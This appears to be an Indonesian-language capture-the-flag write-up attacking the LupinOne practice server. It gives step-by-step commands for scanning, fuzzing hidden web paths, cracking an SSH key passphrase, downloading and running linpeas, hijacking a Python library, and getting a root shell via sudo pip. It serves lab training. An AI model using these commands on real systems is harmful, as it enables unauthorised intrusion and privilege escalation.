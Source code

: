 # Laporan Serangan Server LUPINONE
Ini adalah hasil serangan yang telah dilakukan pada server LUPINONE untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : 
	- cara 1
	```
	ip a

	```
	- cara 2
	```
	ifconfig

	```

- scan jaringan
	- nmap 
	```
	nmap -sP <network_id>/<prefix>
	```
	- netdicover 
	```
	netdiscover -i <interface>
	```

- uji koneksi, kali linux dan server Lupinone
```
ping <ip_server>
```

## Scan Port Server dengan NMAP
- nmap : 
```
nmap -sC -sV -O <ip_server>
```

**Port** yang terbuka dari server adalah :
- ssh (22)
- http apache (80)

## Access HTTP (80)
- url
```
http://<ip_server>
```
```
/robots.txt
```
dan
```
/~myfiles
```
- cari file tersembunyi lainnya
```
ffuf -c -u http://<ip_server>/~FUZZ -w /usr/share/wordlists/dirb/common.txt
```
- access file tersembunyi
```
http://<ip_server>/~secret
```
- dapat username : **icex64**
- dapat passphrase : **fasttrack**
- cari file tersembunyi pada folder secret
```
ffuf -c -ic -u http://<ip_server>/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -f 403 -e .txt,.html
```
- access file
```
http://<ip_server>/~secret/.mysecret.txt
```
- dekripsi pesan dengan **cyberchef**
- paste pesan ke input dan gunakan **data format**
- uji coba satu persatu dari **To Hex** sampai **From Base58**
- sampai menemukan hasil output
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jYmMAAAAGYmNyeXB0AAAAGAAAABDy33c2Fp
PBYANne4oz3usGAAAAEAAAAAEAAAIXAAAAB3NzaC1yc2EAAAADAQABAAACAQDBzHjzJcvk
...
...
...
...
1bsU2HpDgh3HuudIVbtXG74nZaLPTevSrZKSAOit+Qz6M2ZAuJJ5s7UElqrLliR2FAN+gB
ECm2RqzB3Huj8mM39RitRGtIhejpsWrDkbSzVHMhTEz4tIwHgKk01BTD34ryeel/4ORlsC
iUJ66WmRUN9EoVlkeCzQJwivI=
-----END OPENSSH PRIVATE KEY-----
```
- simpan kedalam file **my_key_ssh.rsa**


## Decrypt Key SSH

menggunakan **john the ripper**
- hash
```
ssh2john my_key_ssh.rsa > my_hash

``` 
```
john --wordlist=/usr/share/wordlists/fasttrack.txt my_hash

```
- dapat passphrase (password ssh) : **p@55w0rd!**





## Access SSH (22)
- login
```
ssh -i my_key_ssh.rsa icex64@<ip_server>
```
- flag1
```
cat user.txt

```





## Privilege Escalation
- cek sudo
```
sudo -l

```
- access file python
```
cat /home/arsena/heist.py

```
- dari direktori file dan keterangan username terdapat user lain selain **icex64** yaitu user **arsena**
- teknik **(Python Library Hijacking Approach)**
- cari direktori modul **webbrowser** dengan **linpeas**
```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

```
- cari **webbrowser** terletak pada folder **/usr/lib/python3.9/webbrowser.py**
- open file
```
nano /usr/lib/python3.9/webbrowser.py

```
- dibawah import dari semua modul tambahkan script access terminal
```
os.system("/bin/bash")
```
- login user **arsena**
```
sudo -u arsena /usr/bin/python3.9 /home/arsena/heist.py

```
- coba cek sudo lagi
```
sudo -l

```
- keterangan username sudah root
- lakukan Privilege Escalation
- teknik **PIP Privilege Escalation**
```
TF=$(mktemp -d)
```
```
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
```
```
sudo pip install $TF
```
- flag2
```
id
whoami
cd /root
ls
cat root.txt

```